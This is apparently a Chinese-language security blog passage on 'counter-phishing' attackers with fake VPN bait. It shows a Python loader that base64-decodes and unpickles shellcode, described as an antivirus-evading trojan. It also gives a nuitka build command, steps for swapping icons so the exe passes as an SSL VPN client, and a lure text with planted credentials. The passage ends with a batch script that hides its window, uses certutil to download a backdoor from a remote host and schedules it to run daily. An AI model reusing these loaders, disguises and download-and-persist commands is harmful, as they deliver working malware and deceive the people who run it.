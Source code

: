  

代码test2.py

  *   *   * 

    
    
    mport base64,pickle,ctypes  shellcode=b'这里填上面python脚本输出的数据'  pickle.loads(base64.b64decode(shellcode))

  

生成exe文件，一个比较简单的免杀木马，可以绕过杀毒软件  

  * 

    
    
    nuitka --mingw64 --standalone --show-memory --show-progress  --windows-company-name=test --windows-product-name=test --windows-file-version=1.0 --windows-product-version=1.0 --windows-file-description=test --windows-disable-console --nofollow-imports --follow-import-to=utils,src --onefile --output-dir=out test2.py

  

伪装成防守队攻击的sslvpn，利用BeCyIconGrabber.exe获取sslvpn的ico图标

![](https://gitee.com/fuli009/images/raw/master/public/20230714175357.png)  

接着用工具Restorator 2018.exe替换图标，就可以伪造成一个sslvpn程序了

![](https://gitee.com/fuli009/images/raw/master/public/20230714175359.png)  

攻击者会对范围内的系统进行信息收集和攻击利用，这个时候，只需要将免杀木马和vpn连接的教程文档放在一个www.zip的压缩里面，稍微需要伪装一下，可以用类似这样的话术来欺骗攻击者：

> vpn测试，仅内部员工使用！
>
> 点击文件夹中vpn程序，输入地址和端口
>
> 请输入账号密码xxx/xxx!@#123，即可访问资源

![]()![](https://gitee.com/fuli009/images/raw/master/public/20230714175400.png)

  

###

###  **钓鱼文件反制（三）**

bat脚本除了压缩包自解压运行之外，还可以利用工具将bat文件转成exe程序去伪装。

  

这里还是写个bat脚本文件，先利用certutil下载后门木马文件，然后做一个定时任务test，在每日下午16:18分运行后门木马文件。

  *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    @echo off  
    if "%1"=="h" goto begin  
    start mshta vbscript:createobject("wscript.shell").run("""%~nx0""h",0)(window.close)&&exit  
    :begin  
    copy c:\\windows\\system32\\certutil.exe a.exe  
    a.exe -urlcache -split -f  http://ip/test123.exe D://test123.exe  
    schtasks /create /tn test /tr D:\\\\test123.exe /sc daily /st 16:18
